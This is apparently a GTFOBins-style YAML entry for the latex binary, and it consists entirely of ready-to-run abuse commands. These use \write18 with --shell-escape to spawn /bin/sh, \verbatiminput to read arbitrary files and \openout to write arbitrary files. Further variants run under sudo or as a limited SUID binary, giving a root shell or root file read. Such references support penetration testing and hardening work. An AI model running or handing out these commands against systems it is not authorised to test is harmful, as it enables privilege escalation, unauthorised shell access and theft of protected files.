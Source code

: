 ```yaml
---
functions:
  shell:
    - code: |
        latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  file-read:
    - description: The read file will be part of the output.
      code: |
        latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
  file-write:
    - code: |
        latex '\documentclass{article}\begin{document}\immediate\openout\tempfile=file_to_write\immediate\write\tempfile{content_to_write}\end{document}'
  sudo:
    - description: The read file will be part of the output.
      code: |
        sudo latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
        strings article.dvi
    - code: |
        sudo latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
  limited-suid:
    - code: |
        ./latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
---
```

